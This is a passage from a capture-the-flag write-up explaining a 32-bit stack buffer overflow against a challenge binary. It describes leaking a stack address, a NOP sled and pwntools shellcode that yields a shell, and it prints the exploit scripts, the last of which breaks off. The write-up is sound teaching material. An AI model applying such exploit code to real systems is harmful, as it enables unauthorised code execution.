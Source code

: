 At this point, the exploit path I formulated was: overflow the buffer to make eip jump back to get_tree -> read and parse the stack leak -> put the shellcode into the buffer and overflow the buffer to set eip to the start of local_110. In practice however, this was a bit more difficult to execute beccause the address of the local_110 buffer during the second time the gets was called was different from the first time gets was called. I found this out through experimenting in GDB which was another really useful skill I learned during this ctf. Specifically the `telescope` command provides a really easy way to inspect the memory at certain addresses. This helped me locate where my shellcode actually was on the buffer and it's offset with the address which was leaked. With the analysis I did in GDB, I decided that it was best if I just set eip to `leak + 0x4` and use a NOP sled so that it would execute my shellcode if I jumped anywhere near the correct address. 

This is the first payload that was sent in order to set eip and obtain the leak.
```python
r.recv()  
  
payload = "A" * 272 # fill buffer up to control EIP  
payload += p32(0x08048546) # jump back to get_tree  
r.sendline(payload)  
sleep(1)  
r.recvline() # for remote only  
leak = int(r.recvline().split("tree ")[1].split(" :(")[0].rstrip()) & 0xFFFFFFFF # get leaked address for s buffer  
log.info("leak: " + hex(leak))
```
The leak processing code is actually pretty interesting because of the fact that the binary output the address of the stack in decimal and not hexidecimal. This was different because we needed to convert from decimal to the two's complement hex address. Typically, it would just be a `leak.rstrip().ljust(8, "\x00")` however in this case we have to do a bitwise and with 0xFFFFFFFF in order to get the correct hexidecimal representation. 

The second part of the payload puts our shellcode into the buffer and jumps the program to the buffer.
```python
r.recv()  
  
payload = "\x90" * 100 + asm(shellcraft.i386.sh()) # setup buffer with shellcode  
#payload += cyclic(412)  
payload += "A" * 128 # padding to control eip  
payload += p32(leak + 0x4) # jump to shellcode which is setup on the stack  
  
log.info("jumping to: " + hex(leak + 4))  
r.sendline(payload)
```
As you can see, I used some NOPs (\x90) so that my jump would not have to be 100% accurate but rather just be close to the start of the shellcode. Putting this all together we get the following exploit which grants us a shell.
```python
from pwn import *  
  
context.terminal = ['tmux', 'split', '-h']  
context.log_level = 'debug'  
  
gdbscript = """  
b printf  
"""  
#old address dc75  
  
r = remote('p1.tjctf.org', 8006)  
#r = process('./osrs')  
#gdb.attach(r, gdbscript = gdbscript)  
  
r.recv()  
  
payload = "A" * 272 # fill buffer up to control EIP  
payload += p32(0x08048546) # jump back to get_tree  
```
